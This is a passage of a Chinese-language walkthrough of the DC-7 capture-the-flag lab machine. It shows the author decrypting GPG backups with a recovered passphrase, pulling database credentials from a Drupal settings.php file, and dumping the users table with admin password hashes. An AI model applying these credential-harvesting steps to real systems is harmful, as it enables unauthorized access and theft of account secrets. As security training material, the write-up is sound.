     **`--pinentry-mode loopback`**：指定 GPG 使用命令行模式获取密码，而不是弹出窗口
    
    **`--passphrase PickYourOwnPassword`**：在此处直接提供密码（`PickYourOwnPassword`）
    
    **`--symmetric`**：表示使用对称加密方法
    
    是进行对称加密，并且直接给出了密码`PickYourOwnPassword`
    
4. 尝试解密，文件夹内两个文件都解密
    
    ```python
    gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --output /home/dc7user/backups/website.sql --decrypt /home/dc7user/backups/website.sql.gpg
    gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --output /home/dc7user/backups/website.tar.gz --decrypt /home/dc7user/backups/website.tar.gz.gpg
    ```
    
    同样让 GPG 从命令行读取密码，使用加密时使用的密码，破解成功，并且收到一封邮件
    
    ```python
    dc7user@dc-7:/opt/scripts$ gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --output /home/dc7user/backups/website.sql --decrypt /home/dc7user/backups/website.sql.gpg
    gpg: AES256 encrypted data
    gpg: encrypted with 1 passphrase
    
    You have new mail in /var/mail/dc7user
    ```
    
5. 我们先查看破解出来的文件，内容太多应该没用，返回去看邮件，像是之前`mbox`里的内容，然后再查看`website.tar.gz` ，解密后发现是整个`HTML` 的文件
    
    查看数据库配置文件`settings.php` ,其实在`/var/www`里面也能看（搞这么麻烦感觉走错路了）
    
    ```python
      'username' => 'db7user',
      'password' => 'yNv3Po00',
    ```
    
6. 登录数据库成功，查询有用的数据
    
    ```python
    MariaDB [d7db]> select * from users;
    +-----+--------------------------------------+----------+
    | uid | uuid                                 | langcode |
    +-----+--------------------------------------+----------+
    |   0 | e813638d-3eb3-4212-af40-171dd51023e9 | en       |
    |   1 | fd93872d-a854-44cd-bb08-eb9a11e46492 | en       |
    |   2 | 68803de9-fc7b-4b7b-bce8-d04f11ac4c8a | en       |
    +-----+--------------------------------------+----------+
    //
    MariaDB [d7db]> select * from users_field_data;
    +-----+----------+--------------------+--------------------------+---------+---------------------------------------------------------+-------------------+---------------------+--------+------------+------------+------------+------------+-------------------+------------------+
    | uid | langcode | preferred_langcode | preferred_admin_langcode | name    | pass                                                    | mail              | timezone            | status | created    | changed    | access     | login      | init              | default_langcode |
    +-----+----------+--------------------+--------------------------+---------+---------------------------------------------------------+-------------------+---------------------+--------+------------+------------+------------+------------+-------------------+------------------+
    |   0 | en       | en                 | NULL                     |         | NULL                                                    | NULL              |                     |      0 | 1567054076 | 1567054076 |          0 |          0 | NULL              |                1 |
    |   1 | en       | en                 | NULL                     | admin   | $S$Ead.KmIcT/yfKC.1H53aDPJasaD7o.ioEGiaPy1lLyXXAJC/Qi4F | admin@example.com | Australia/Melbourne |      1 | 1567054076 | 1567054076 | 1567098850 | 1567098643 | admin@example.com |                1 |
    |   2 | en       | en                 | en                       | dc7user | $S$EKe0kuKQvFhgFnEYMpq.mRtbl/TQ5FmEjCDxbu0HIHaO0/U.YFjI | dc7user@blah.com  | Australia/Brisbane  |      1 | 1567057938 | 1567057938 |          0 |          0 | dc7user@blah.com  |                1 |
    +-----+----------+--------------------+--------------------------+---------+---------------------------------------------------------+-------------------+---------------------+--------+------------+------------+------------+------------+-------------------+------------------+
    ```